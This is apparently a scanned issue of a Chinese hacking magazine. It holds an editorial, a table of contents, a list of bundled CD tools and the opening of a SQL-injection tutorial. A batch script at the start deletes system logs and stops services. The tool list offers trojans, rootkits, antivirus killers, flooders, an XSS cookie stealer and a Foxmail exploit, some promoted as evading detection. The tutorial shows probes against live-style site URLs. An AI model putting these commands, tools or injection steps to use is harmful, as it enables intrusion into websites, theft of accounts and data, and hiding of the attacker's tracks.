@del c:\winnt\*.txt /f /q
@del c:\winnt\*.log /f /q
@net start w3svc
@net start event log
@rem [删除日志]

@net stop lanmanserver /y
@net stop Schedule /y
@net stop RemoteRegistry /y
@del patch.dll
@echo The server has been patched, Have fun
@del patch.bat
@REM [禁止一些危险的服务.]
```

论坛 天滴：我刚学 C，用 C 对文件进行读写，但是显示出来的老有结束字符，如何去掉最后的结束字符（y 上面加两点）啊？

Socket：由于你未给出源代码，所以无法具体判断，但你的情况应该是函数使用不规范引起的，一般读文件用 `fgetc`，写文件用 `fprintf`，这样容易控制，还不会出现那个“y 加两点儿”。

# 实验室的故事

悄悄地，没有任何征兆地，我们的攻防实验室第三轮第十关被攻破了！而那个时候，编辑部的几个小编正紧锣密鼓地策划这期杂志：脚本小子策划了一个“菜鸟版 Exploit 编写指南”，想给广大关注系统漏洞的朋友提供一个最简单的学习系统底层漏洞分析并加以利用的文章；蝴蝶小编正在为了“手工添加系统服务”而狂喜；刘流最近也喜欢上了脚本攻击，还真让他学会了一些，加上本期推出的最新雪人论坛漏洞利用文章，简直让他在脚本攻击方面大大提升；icefire 在啃实验室第八关的破解程序，忘乎所以；而 wtf，竟然别出心裁地策划了一个深入浅出的脚本注入专题……谁也没注意到，真正的黑客已经进入了我们的服务器！

黑防攻防实验室已经开放了三轮了，前两轮大家都非常热情地参与，前九关的过关人数也非常多，但第三轮设置过于复杂，很多朋友都堵在前七关过不去，即使过了第七关也会闷在第八、九关不能向前。因为本轮设置非常好地考虑了实际的网络情况，第九关论坛就是用的比较安全的 php 论坛——我们的目的很简单，就是想让大家在说到 php 就头疼的时候共同研究 php，然后共同提高：把 php 这块难啃的骨头啃下来，真正发挥大家群策群力的优势——第九关，终于还是被攻破了！

当 socket 还沉浸在和外挂相关的 Winsock2 SPI 网络封包截获技术时，wtf 收到了一封电子邮件，标题很奇怪“拜访黑防”——就在用 foxmail 打开这个信件的时候，系统突然变慢了一下，一种特有的敏锐让 wtf 马上按下了“reset”，马上检查第十关服务器，桌面上的大奖文件已经被改动过了，很奇怪，仍然改成了“拜访黑防”……

wtf 马上叫大家细致地检查系统，没有任何异常，进程、服务、帐户一点没动，只是 wtf 机器上的数据传输量明显加大，脚本小子马上去公司网关启动 sniffer——一个 IP 正在稳稳地接受着我们传过去的数据！刘流马上开始追查这个 IP，wtf 把系统中的重要数据全部删除、转移，大家都没说话，很明显，有人来拜访黑防了！

“加拿大！”刘流那边出来了结果。“攻不进去，防护很严。”socket 也报告了结果，wtf 没说话——很明显，那个信件有问题，数据是反向传输的，软件防火墙应该没有用处了，现在唯一的办法是断网检查！——果然，断网后 wtf 系统中数据传输依然很大，用工具一查，进程中被插入了东西……电话铃声在寂静的夜里响起，大家都把目光投了过去——一个读者利用两天时间研究了实验室的分布，最后自己反编译了第十关程序的代码，找到漏洞，直接溢出了服务器！随后还给黑防开了个玩笑。

真正的高手终于浮出水面！从最开始的刺探信息、研究漏洞、溢出服务器，直到最后利用最新的 foxmail 漏洞控制 wtf 的电脑，和大家开了个玩笑，一切都是一个谜。

目前众小编又重新投入了工作，为大家准备了一期高质量的稿件，而下期，将是真正的黑客和他自己发现的漏洞亮相的时候！……

# 黑客防线 5Attack——最新入侵与攻击技术研究

# 特别专题

- 脚本注入其实很简单……6

一种新的技术开始在网络上流行，它不需要使用者有高深的编程能力，不需要学习者有很强的基本功底，更不需要使用纷繁复杂的各类攻击程序。它只需要简单地了解最基本的数据存储知识和非常少量的脚本编写知识就可以实现了——而且最让人恐慌的是：保守估计，国内有 60% 以上的脚本站点存在这样的漏洞！入侵者可以非常方便地窃取数据或者突破各类 VIP、会员限制！它就是——脚本注入！

## 漏洞攻击

- 冷眼网络安全——Foxmail PunyLib.dll 远程缓冲区溢出漏洞……14

Foxmail 是国内普及率非常高的一个邮件收发程序，常常收发邮件的朋友大多都是使用它来完成日常的工作，可以想象一下 Foxmail 出漏洞，危害将多么严重！——很不幸，它还真的出了漏洞！

- 菜鸟版 Exploit 编写指南……16

常有读者抱怨写 Exploit 要多么多么的困难，难以找到适合自己菜鸟特性的教程。虽然网上有很多教程，但大部分都是针对 *nix 类操作系统的，也无疑是给菜鸟们设置了一道门槛。偶尔有一些心得，但是却难以找到合适软件加以实践，如果你是菜鸟，如果你想编写真正属于自己的 Exploit，那该怎么办呢？

- 带你进入 Windows 缓冲区溢出的神秘地带……21
- ATTACK！以太网第二层协议……23

## 脚本攻击

- 入侵“雪人论坛”——“Snowman Forum” SQL Injection 漏洞分析……26
- BBSXP 漏洞续谈……27

我们上次分析了 bbsxp 的 usertop.asp 和 setup.asp 这两个文件，因为这两个东西比较有趣，而且分析起来还有点味道，但如果按照这种倒着往下看的趋势继续下去，接下来的就是冗长而又无聊了。为何我们不换一种思考方式发现漏洞呢？

- 被人忽略的 Adodb.Stream 网页木马……30
- ACCESS 惊现又一漏洞……32
- 入侵国内某大型安全论坛手记……33

## 黑兵器库

- 将后门隐藏到底……36
- 通通透透 BITS……38
- 会话劫持攻击实战……39

**定价：23.8 元**

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码并收录在本书的配套光盘中）。网上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。

书中介绍了运用多种开发语言，如 Visual Basic、Visual C++ 等工具来开发，书中的代码并非完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名 Hacker 的代码，并加上说明提要。在本书的配套光盘中，不仅有书中的代码，还收录了其他一些黑客工具、源码和相关工具代码以及一些黑客工具等等。

**定价：19.8 元**

《黑客防线》2003 年增刊以 8 个栏目涵盖了黑客技术起步、进阶提高在内的 66 篇全新文章，分类很详细，每篇文章都是经过精心挑选打造，是编辑部长期读者调查的基础上，结合读者喜好，特约作者撰写汇编而成。

每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

# CONTENTS

**定价：19.8 元**

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具，另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

汇款地址：北京市中关村邮局 008 信箱

邮政编码：100080

收款人：《黑客防线》邮购部

热线电话：(010)62141446、62141445-8011

E-mail：yougoubu@hacker.com.cn

## 编程解析

- 找回 Windows 95/98/2000/XP 下被删除的文件……42
- 让外挂不再疯狂——Winsock2 SPI 网络封包截获技术……44

说到封包截取，也许你会感到陌生，但说到网络游戏外挂编写原理和外挂，大家一定会很兴奋，是的，聪明的你一定可以想到，它们之间有一种必然的联系，封包的截获将是成功的第一步，而反外挂也同样要深入到这方面。当然网上也有封包截获工具（其实防火墙本身就有此功能），但能了解其截取与转发机制完全是必要的！

- 编程实现邮件地址有效性检测……47

## 密界寻踪

- 当 hacker 遇上 Cracker——实例解说 Cracker 思路……50
- Cracker 初级教程之 twofish 算法破解……52
- 解析“网际快车”破解与算法……54
- Crack 技术逐级进阶……56

## 新兵训练营

- 我的木马我来藏——手工添加系统服务……60

现在的木马后门大多采用服务的方式在系统中隐藏和运行，普通使用者根本找不到它们的踪迹，的确，好的编程思维写出来的伪装成服务的后门是不容易被查杀的，那对于不懂编程的新手来说，怎么去完成这样的隐藏呢？……

- “about:blank”并不“空白”……62
- 让 IE 返回错误信息……63
- Win XP 下秘密文件的另类隐藏……64
- FTP 服务器常见漏洞总结……68

## e生e事

- 窃窃……69

## 攻防实验室

- 十关大奖喜迎得主首发漏洞隆重登场！……71
- No8 of hacker's lab 注册过程分析……72
- 搞定黑防第九关……76

## 编读互动

# 你问我答

## 黄金盾

SecureStack：保护 WinNT/2000 系统不受缓冲区溢出攻击的工具。

Easy Remover 2004：汇集程序卸载、启动管理、任务管理和隐私管理功能的工具。

Kerio Personal Firewall：一个绝对专业的防火墙，采用了专业的防黑技术。

Sygate Personal Firewall v5.5：可以让你的系统免遭来自 Internet 上的非法访问。

Achilles：典型的 HTTP 代理，在客户端浏览器和 Web 服务器间转发数据包。

PktFilter：运行于 Windows 2000/XP/2003 上的包过滤防火墙，使用类似 IP Filter 语法的规则。

木马分析专家：能自动分析、终止可疑进程、窗体类型及木马详细资料，并能随时在线升级，100% 查杀各种未知木马。

IE 防火墙：提供的五大功能模块让你轻松享受上网快乐。

Cather 防火墙：一系列旨在解决企业局域网安全的应用系统。

特洛伊木马侦测移除工具：能够侦测出每一种已知、足以威胁计算机系统安全性的后门程序。

Webroot Spy Sweeper：可以自动检测并清除隐藏在系统中的间谍软件。

SolarWinds：一套非常全面的网络工具库，包括了网络恢复、错误监控、性能监控和管理工具等等。

ZoneAlarm Pro With Web Filtering：个人电脑安全保护的优秀软件，推荐使用。

## 补丁园

Crackcode 修正版：注册机工具，该版本突破了 25 位限制。

联众世界去广告补丁：联众世界广告去除补丁。

诺顿杀毒软件病毒库：Norton AntiVirus 离线增量升级包，最新病毒库。

Office 2003 关键更新：KB828041，Office 关键更新。

Plasic's CrackMaker 1.32 文件补丁：补丁制作工具，功能简单、实用。

Linux VServer Project 漏洞补丁：VServer 应用程序针对 chroot-again 类型的攻击没有很好地进行安全保护，攻击者可以利用这个漏洞脱离限制环境，访问限制目录之外的任意文件。本软件为该漏洞的安全补丁。

## 漏天剑

Chatflooder666：一款聊天室洪水攻击软件，可以设置三种信息，并且自己选择发送哪一种信息。

PUBWIN4 破解精灵：破解 PubWin4 的工具。

Foxmail 5 溢出程序：Foxmail 5 远程缓冲区溢出漏洞攻击工具。

Imail：Imail 入侵工具。

Jordan Windows Telnet Server：Jordan Windows Telnet Server 1.2 远程溢出攻击程序。

MS04-007：Microsoft ASN.1 库 BER 解码堆破坏漏洞。

手机短信信息攻击程序：能迅速让手机用户（能接受短信信息）的 SIM 卡或者 STK 卡瘫痪的短信信息工具。

x2a trojan v1.0：一款小巧玲珑的木马，具有 25 种功能。

Hacking Tools Collection：一个综合的黑客工具集合，包括 30 多种黑客常用工具。

阿拉丁 UDP 洪水攻击器 2.0：一个 UDP 洪水攻击软件，威力巨大，骇人的利器。

跨站 ASP 和 PHP 取 COOKIE 程序：最近脚本攻击比较火热，给大家找了一个方便的跨站攻击工具。

杀毒软件克星：运行后无任何显示窗口，自动寻找并杀除杀毒软件。

## 自由园

FlashGet 1.60：人人皆知的上传下载软件，这个可是没有线程限制的。

FreeWebs password cracker：专门破解 FREEWEBS.COM 账户的小工具。

BluetoothShareware LockItNow：一款可以帮助你通过移动电话对电脑进行加锁和解锁操作的工具。

MD5 密码转换器：对数据进行 MD5 算法转换。

Passware KIT 5.5：世界最著名密码破解工具，几乎可以破解当今所有文件的密码。

MSN 工具：可加大你的 MSN 容量，达到 25 兆。

ProcessDasm 0.2：一个反编译器，可以反编译内存中的程序。

Passware Schedule Password Recovery Key：一款从 MS Scheduler 7.x、SCD 和 1.x CAL 文件中恢复密码的工具。

Unique Fake Lock ScreenXP：一个窃取 Windows XP Pro 屏保密码的工具。

Visual Zip Password Recovery Processor：一个很有名的 ZIP 压缩文件密码破解器，有很好的 GUI 界面。

cr--SDemo：有读者反映网上仍然很多动画需要口令，这个程序就可以用来破解要密码才可以看的动画（S-Demo）。

THC-Hydra 3.1：可以用来对需要网络登录的系统进行快速的字典攻击。

QQ 千秋：很多人以前小时候第一次学“黑客”，也就是偷别人 QQ 时使用的程序，放在这里缅怀一下过去的岁月。

## 幽灵谷

Fluxay5：鼎鼎大名的流光新版本，绝对值得一用，此为网络上的稳定版。

FTP 木马：一个很好的 FTP 木马，用 UPX 加了壳，暂时应该可以逃过杀毒软件了。

冰河 NEWFUN 专版：冰河的又一修改版本，实际上只是一种学习冰河和后门编程的思路。

网络精灵：一套通过网络协议，对网络上的机器进行自动监控、管理的软件。

WAY 远程控制系统：木马程序，控制远方的计算机，支持局域网/互联网方式、Modem 与 ISDN 通讯。

超级间谍标准版：一套功能强大的远程管理软件。

黑马测试版：获取游戏“传奇 2”“传奇 3”的登录信息。免查杀，自动升级，一次种植，终身受用。

WatchDog v7.0 特别版：可以监视连接或断开、正在浏览、玩游戏、收发 E-mail 等，提供联机监听局域网工作站、观察工作站桌面，可隐藏或全屏显示。

Access 注入程序：用于发现 SQL 注入漏洞后的自动破解器，程序不是很稳定，要多试几次。

QQ 死机炸弹：输入对方 IP 能让对方死机的工具，98 系统有效，在网吧内使用 100% 有效。

DCMD：CMD 隐藏版本，不能被任何杀毒软件查杀。

内核级 Rootkit：参数有点多，单纯使用并没有太大的优点，只能实现端口复用和简单的 shell，如果配合功能强大的后门，将是非常厉害的。

Iget：幻鸿子的 iGet 脚本，上传到服务器后运行，可下载预定网页路径的程序，然后用某种方法运行，功能单一，非常适合入侵。

幻影：用于木马或者后门的加壳，对国内杀毒软件和安全程序能比较好地躲开。

SQL 综合利用工具：能实现非常强大的功能，可利用数据库的存储过程实现非常多的功能。

冰狐 1K 浪子微型后门：可算得上是 Windows 系统下最小的后门，只有 1K 大小。

土耳其木马：功能非常强大的生尔达木马，可获取所有程序（包括 CuteFTP）和 Windows 密码，正确保存键盘记录。

8K 木马：一个 8K 木马，拥有 BITS 的高级截获和 Winshell 的操作功能，并且模仿 NetThief 实现了服务端上线通知。

Toquito Bandito：一款 DLL+DNS IP 反弹型木马，该版本键盘记录完全脱离木马本身的 Server，用一个 3854 字节 DLL 代替，具有 DNS 反弹、PHP 动态 IP 通知等功能。

## 点金石

MD5 解码器：论坛 vite 读者点播。

网上现在非常多的密码都是通过 MD5 加密的，使用这个程序能破解这种不可逆算法，但是一切都有赖于你字典的强度和力度了。

- **NBSI**：论坛木头瓶子读者点播，果不欺。
- **Asc**：论坛 asdert 读者点播，一个早期的检测页面是否存在注入漏洞的程序。
- **Sql**：论坛木头瓶子读者点播，一个破解 Access 的注入程序。
- **KFSensor V1.5.0 特别版本**：论坛 lxflyzj、乱码读者点播，一款基于入侵检测系统（IDS）的安全工具。
- **脚本后门包**：论坛 guest 读者点播，内含一些常见的脚本后门。
- **Sniffer Portable 动画教程**：论坛 guessun 读者点播。
- **Webdav 溢出最终版**：论坛 xboywei 读者点播。
- **Turbo C V2.0 中文汉化版本**：论坛 cuc 读者点播，小巧实用，是编程和学习 C 语言的好工具。
- **WinXP 系统 2004 更新升级包**：论坛 outcast 读者点播，随机 WinXP 操作系统最新升级包。
- **SAdoor**：论坛 huangrui 读者点播，木马 Anon listening remote shell and execution server.

## 黑录像

- 用 IE 直接控制肉鸡动画
- 扫描路由器入侵教程
- 教你做个特别的 QQ 秀
- SQL2 的入侵教程
- 用天网得到对方的 IP 地址教程
- 利用 IE 来运行系统文件的教程
- 在 Linux 下控制 3389 肉鸡入侵教程
- 网页木马软件入侵教程
- Win2003 转换为 Workstation 教程
- IIS CGI 文件名错误解码漏洞入侵教程
- 制作 SOCKS5 代理入侵教程
- 通过 Radmin 获取 Admin 密码动画教程

## 酒地

- **天使帝国**：著名的 RPG 游戏，虽然老了点，可是精美的画面还是使人难以忘怀。
- **Speedy Eggbert 1.0**：主人翁是一位可爱的蛋头小子，它能跳、能爬、能游，必要的时候还会踩上滑板溜行、驾驶车辆、乱窜、穿戴喷射器飞行，而玩家必须依场合需要善用这些技能，帮助蛋头小子收齐每一关卡中的宝藏与蛋之后，才能继续前往下一关冒险。
- **圣剑英雄传——英雄救美**：由成都金点开发组推出的完全免费的自由软件。该款游戏异乎寻常地好。

- **Widget & Gold**：躲避敌人的追击，收集到画面中所有的金块的小游戏。
- **AstroFire 3.00**：游戏的故事背景是在一片浩瀚的太空中，你必须一方面不断闪躲陨石，另一方面要击碎陨石与敌方的太空船，反正画面上出现的所有物体，尽快闪躲，尽量摧毁，争取高分就对啦！
- **Tiger's Bane**：一款小射击游戏，你可以驾驶 7 种武装直升机作战。
- **B-System 3.00**：射击游戏，全程共有 12 关，每一关就是一个巨大的头目，挑战性极高。
- **Creature Jungle 2.0A**：值得收藏的“雷电”式射击佳作，来自日本的卷轴射击游戏，很有大型电玩“雷电”的风格，文件容量虽小却表现不凡，非常值得玩家尝试与收藏。
- **经典战舰游戏**：一款经典的战舰游戏，赶紧投入其中感受一下小游戏带给你的快感和刺激吧！
- **BZFlag 1.7c**：玩家自编的格斗游戏，目前只有冲和 RYU，相当有意思。
- **Shadow Company 影子帝国**：一款极具革命性的即时战术战斗游戏，有着独特强大的 3D 引擎。该游戏将把玩家带入一个神秘的未来世界，有着照片般真实的游戏环境、难以置信的图形效果和易使人上瘾的耐玩性——这些都是原文的吹牛，到底如何呢？还是让咱们大家试试看！
- **AlphaNatix**：拼字游戏。每一关都有时间限制，另有 Cult Movies Edition 与 Wild Kingdom 两个版本，内容包含不同的字库。
- **Hypervisual Blockworks 2.0**：一个很类似于搭积木之类的造物拼具，可以让你发挥想象空间，利用无限的可能组合，拼凑出真实生活中或是纯属架空的物体。
- **警察捉小偷**：很有趣的游戏，看看你的速度快吗？
- **新款二找一**：一款具革命性的即时益智游戏，该游戏将把玩家带入一个简单的游乐世界，找出很简单的图形进行颜色的配置。
- **第七届中央电视台音乐电视大赛 MV Again To Me MV**：以濡泪凄婉剧情为主的车大婷，今次再走抒情慢歌的曲风，必能再次触动你的心灵！
- **长藤挂铜铃**：梅艳芳生前带给我们大家的震撼之作。
- **S.H.E 给我多一点**：平常嘻嘻哈哈的 S.H.E 会说：叫我第一名，因为四周共计拍了十支广告。最近因为 ELLA 受伤，让 S.H.E 全员到齐，唱片公司项目部门每天为广告苦接订单，心却热呼呼的，因为旗下艺人赚钱，员工福利就好，就让我们感受一下 S.H.E 给我们带来的经典 MTV 新曲吧！
- **韩国恋人 MTV《24 小时的爱情》**：一个冰山雪地里的爱情故事，男女主人公的最后命运如何？静下来慢慢看完这段 MTV，你会发现韩国的 MTV 还真有杰出的地方。

- **金贤正——如果这是结束**：近期的歌坛掀起一股强劲的韩国旋风，而在韩国，金贤正早已成为一颗家喻户晓的明星。现在将她的这首代表专辑推荐给大家。
- **弹珠台百事可乐版**：弹珠台，大家都玩过的游戏，不过这个百事可乐的弹珠台版本，可以算是新鲜了！很好玩，推荐大家试一下！
- **桌面小猫**：桌面型益智游戏，发动你的思想让你的宠物变得更为有趣。
- **FLASH 经典小剧场**：花絮 1-4 集。
- **Mp3 经典曲目**：阿莲卡、浪客剑心、PARAPPA 音乐跳豆、寂寞咖啡屋、春泥、多谢老天爷、看我 72 变、猪、我不是黄蓉、十年、爱的主打歌、第五大道、恋爱的力量、天使城市、appcars、东风破、the day you went away、aroma、Valenti、勇敢。

## 杂志相关

- **mail.txt**：通过透透协议分析——深入剖析邮局协议一文中的相关代码。
- **ipsec.rar**：IPSec 打造 FreeBSD 下信息的安全传输一文中详细配置命令文本和具体配置动画。
- **Secure IIS Personal 2.04**：SecureIIS=IIS+IDS 一文中使用的小东西。
- **biaodan.txt**：表单……又见表单一文中涉及到的代码。
- **java.rar**：用 JavaScript 加密数据库一文中的加密代码，写得不错，感兴趣的朋友可以自己研究一下。
- **del.rar**：找回 Windows 下被删除的文件一文的完整代码，需要注意的是，该代码包含有驱动部分，完成磁盘读写，因为驱动运行在 ring 0，所以可以完成应用程序不能完成的底层工作，请读者自行研究。
- **phpbb.rar**：也玩 phpBB 攻击一文中的关键分析代码。
- **phpbbcode.txt**：TEST FOR UDP 一文中涉及到的关键代码。
- **bbsxp.cpp**：BBSXP 漏洞综述一文中的测试工具。
- **twofish.txt**：Crackme 破解初级算法之 twofish 算法分析一文中的分析代码。
- **pro.rar**：菜鸟版 exploit 编写指南入门程序一文中的源程序，值得大家好好学习。
- **foxmail.txt**：我是这样发现 Foxmail 漏洞的一文中的分析代码，经典。
- **vfoxmail_v1.c**：Foxmail PunyLib.dll 远程缓冲区溢出的完整攻击程序。
- **about.rar**：about blank 并不空白一文中提到的两个好工具，具体用法里面有说明，大家可以参考。
- **nbsi.zip**：专题文章中使用的非常强大的 SQL 注入侦测工具。
- **sql.rar**：是要饭的！提供的 SQL 注入程序，感谢作者提供。
- **php.txt**：漫谈 PHP 漏洞一文中分析的存在问题的 phpbb 源代码。

刘流：2003年年中到2004年年初是国内网络安全最“疯狂”的时候，Windows 系统远程溢出漏洞的不断发布，Linux 内核漏洞的出现，Windows 2000 SP1 源代码的泄露……所有的一切都带来了网络的不稳定因素，各种各样的攻击在网络上蔓延着，服务器被黑、数据丢失、机密信息泄露已经是普通网民司空见惯的事情了——就在大家都对系统严重漏洞津津乐道的时候，一种新的技术开始在网络上流行起来，它不需要使用者有高深的编程能力，不需要学习者有很强的基本功底，更不需要使用纷繁复杂的各类攻击程序，它只需要简单地了解最基本的数据存储知识和非常少量的脚本编写知识就可以实现了——而且最让人恐慌的是：保守估计，国内有 60% 以上的脚本站点，存在这样的漏洞！入侵者可以非常方便地窃取数据或者突破各类 VIP、会员限制！它就是——脚本注入！

# 脚本注入

## 其实很简单

◎ 文／图 WJ

- 前置知识：ASP 代码阅读、编写；Access、SQL、Oracle 数据库的基本语句和大体存储过程
- 难度等级：中
- 适合读者：脚本攻击爱好者、数据库／Web 开发人员

开场白：本文是在脚本注入技术逐步走向成熟的时候写的，总结了常见的 SQL 注入方法和类型，配合了各类网络上没有大面积流传的实用／私人工具，贯穿了很多新的技术，目的很简单：只想很明确地告诉喜欢网络安全的朋友，脚本注入并不难！配合好的思维习惯和好的工具，任何人都可以学会脚本注入，而且能在很短的时间内成为脚本入侵方面中级以上的“高手”！不必疑惑，请往下看！

现在网络早已不是当年 HTML 的天下，静态页面存在的难更新性、难维护性不需要我多讲；ASP 等交互脚本开始盛行，但是相当大一部分脚本程序员在编写代码的时候没有对用户输入数据的合法性进行判断，用户完全可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想知道的数据，这就是所谓的 SQL Injection，即 SQL 注入！

> 刘流：为读者学习、练习方便，本文以最常见的 ASP + Access/SQL 为基础，以 ASP + SQL 为例，辐射到注入难度较大的、最新的 Oracle 注入，对比较难的 ASP.NET / JSP / PHP 注入没有具体讲解，有兴趣的朋友可以下来自己研究，其原理是一样的。文章讲述一切以简单、实用为基础，方便大家学习。

和普通的系统漏洞攻击不同，SQL 注入是通过正常的 Web 服务访问的，不需要像系统漏洞那样需要特别的服务开启才能攻击，所以目前的防火墙都不会对 SQL 注入发出警报，如果管理员没有细致地查看 IIS 日志的习惯，那可能被入侵很长时间都不会发觉数据泄露。

# 脚本注入总体介绍

避不开俗套，先还是来总体介绍一下脚本注入的原理，方便大家以后做更深一步的了解。另外，本文一切从实际操作出发，没有涉及到太多的理论，阅读起来比较轻松，而且朋友们读后也能很容易地学会主流的 SQL 注入手法，但并不代表 SQL 注入很简单！——SQL 注入的手法相当灵活，有时候会碰到很多意外的情况，能不能根据具体情况进行分析，构造巧妙的 SQL 语句，从而成功获取想要的数据，就是高手与“菜鸟”的根本区别，所以，如果通过本文能给广大想学习 SQL 注入的朋友提供一些好的思路和办法，那我的目的就达到了。如果需要更进一步深入地学习，那就需要积累长期的经验和深入的数据库知识了。好了，废话不多说，我们正式开始！

# 手工实现 SQL 注入

我先以 ASP 为例给大家大概介绍一下注入攻击的几个必须步骤。很多网友问我如何学习 SQL 注入，有没有速成的办法，我的回答很肯定：高级注入没有捷径，但初／中级阶段肯定有！比如利用功能全面的各类注入工具就可以很方便地注入（后文将详细介绍），但是最基本的手工操作方式一定得会，因为如果连基本的注入方法都不懂，纯粹使用工具进行注入是永远不会懂其中的道理，换句话说也就是永远地停留在一个低级的层次上，没有丝毫的变通和进步！所以我们先来看看常见的手工 SQL 注入步骤。

### 1. 了解常见的脚本系统

如果你浏览一个网站，它是纯粹的 HTML 静态页面，那请离开，那里不适合你学习 SQL 注入；如果你看到最常见的：`www.***.com/list.asp?id=1` 这样的页面，那至少就有希望了。此类的页面很多，包括网络上非常盛行的各种功能的脚本系统：论坛、下载系统、文章系统、新闻系统等等，它们一般都是上面的页面构成方式，只是格式不同，常见的 ASP 页面构成方式大概有下面几种：

> 刘流：各种脚本系统的分类并没有明显的区别，也可交叉使用，大家不必拘泥于形式。

| 系统 | 示例 |
|---|---|
| 论坛 | http://www.***.com/bbs/list.asp?boardid=1；http://www.***.com/bbs/Board/Board.asp?BoardID=... |
| 下载系统 | http://www.***.com/showsoft.asp?soft_id=1；http://www.***.com/down/show.asp?id=1 |
| 文章系统 | http://www.***.com/showart.asp?art_id=430&cat_id=...；http://www.***.com/ReadNews.asp?NewsID=792&BigClassName=技术&BigClassID=10&SmallClassID=59&SpecialID=0 |
| 新闻系统 | http://www.***.com/Article_Show.asp?ArticleID=1；http://www.***.com/shownews.asp?news_id=1 |

对熟悉 SQL 注入的朋友来说，上面几个系统一看页面构成大概就能知道是使用的什么系统了。新手们这方面一定要多尝试多看，因为很多脚本系统的漏洞都是分类的，也是固有的，一旦确定是什么样的脚本系统，那就很有可能存在相关的一系列漏洞。比如当你看到 `http://www.***.com/Article_Show.asp?ArticleID=1` 这样的页面构成方式的时候，就该开始回忆动力文章／新闻系统有什么漏洞了，这样才能非常方便地针对该系统进行注入测试，而且成功率也是非常高的。

### 2. 判断是否存在注入漏洞

当我们看到一个页面的时候，如何来判断它是不是可以被我们注入攻击呢？方法很简单，就是直接利用数据库的特点，构造简单的判断条件，可采用下面的步骤实现：

```text
www.***.com/list.asp?id='1'

在 URL 后直接加单引号，如果浏览器直接返回错误信息，则有一半以上的机会是存在注入漏洞的，比如：

Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'

[Microsoft][ODBC Microsoft Access Driver] 字符串的语法错误，在查询表达式 'id = ''1''' 中。/list.asp，行 50

如果返回：“非法的新闻 id 参数”，或者其他千奇百怪的信息提示，比如：“悟空，又不听话了吧？”，“小子，想搞我站啊？！”等明显不是服务器系统返回的信息，那说明这个站至少是屏蔽了单引号的！
```

```text
www.***.com/list.asp?id=1 and 1=1

在 URL 后加上 “and 1=1” 的简单恒等式判断，如果存在 SQL 注入漏洞，可以查询数据库，这个恒等式就可以忽略，所以就会返回正常页面，那说明该站有希望被注入。同样，如果返回一些错误信息，那对初级的朋友来讲，还是放弃这个站点吧！
```

```text
www.***.com/list.asp?id=1 and 1=2

在 URL 后加上 “and 1=2” 的简单恒不等式判断，如果该站点支持数据库查询，则大概会返回如下信息：

ADODB.Field error '800a0bcd'

Either BOF or EOF is True, or the current record has been deleted. Requested operation requires a current record.

/list.asp, line 13

如果看到这个，请相信，看完本文你就有能力对它进行初级的 SQL 注入攻击了！
```

### 3. 判断目标数据库类型

“SQL 注入”顾名思义是和数据库有很密切的联系的，所以判断数据库的类型非常重要。常见的组合方式有 ASP + Access、ASP + SQL、ASP + Oracle、PHP + MySQL 等，每种方式的注入都是不同的，因为每种方式的数据库查询语句是不同的，所以能不能确切地判断数据库的类型就是入侵开始前必须要了解的东西。一般采用的方法是直接提交单引号查看返回值，然后判断；不过在判断不出来的时候用扫描器扫描服务器是否开放了 1433 或者 3306 端口也是个另类的方法，虽然不准确，但有一定效果。

详细情况和判断方法请看右表：

| 组合方式 | 出错提示 | 判断结果 |
|---|---|---|
| ASP + Access | Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14' [Microsoft][ODBC Microsoft Access Driver] 字符串的语法错误，在查询表达式中…… /shownews.asp，行 50 | Microsoft Access ODBC 连接方式。一般使用这样的组合方式的是一些小的脚本系统，如小型的文章系统、新闻系统、下载系统和电影程序。 |
| ASP + SQL | Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14' [Microsoft][ODBC SQL Server Driver][SQL Server] 字符串 '' 之前有未闭合的引号。/lib/base.asp，行 102 | SQL Server ODBC 连接方式。一些大型数据中心或者大的脚本系统比较喜欢使用这样的组合，也是最方便我们入侵的组合方式了。 |
| PHP + MySQL | Warning: mysql_fetch_object(): supplied argument is not a valid MySQL result resource … Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource … /download/global.php on line 57 | PHP + MySQL 是对安全性要求相对较高的组合方式，一般比较难入侵，但是一旦注入成功则可以深入到系统权限。 |

这几种都是非常典型的出错提示，非常直观，看到上面的错误就能判断目标服务器上使用的数据库类型了。

### 4. 简单手工 SQL 注入

这里大概讲解一下使用手工的方式对最常见的 ASP + Access 数据库组合的注入方式，希望新手们能从这里面发现规律，将技术移植到其它组合上。

> **小提示**
>
> 其实 SQL 注入就是给目标服务器提交一定的参数，一般的方式是在 URL 后面加上我们构造的查询语句，如果查询正确，则返回正常页面；如果错误，则返回错误页面，这也是所有通过 URL 提交命令来实现注入的通用判断。

